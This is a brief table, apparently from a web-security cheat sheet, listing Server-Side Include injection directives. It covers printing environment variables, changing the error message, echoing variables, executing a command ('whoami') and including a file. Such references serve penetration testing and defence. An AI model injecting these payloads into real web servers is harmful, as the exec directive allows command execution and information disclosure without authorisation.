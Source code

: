 ## SSI Injection - Directives

| Print variables         | `<!--#printenv -->`                                  |
| ----------------------- | ---------------------------------------------------- |
| Change config           | `<!--#config errmsg="Error!" -->`                    |
| Print specific variable | `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` |
| Execute command         | `<!--#exec cmd="whoami" -->`                         |
| Include web file        | `<!--#include virtual="index.html" -->`              |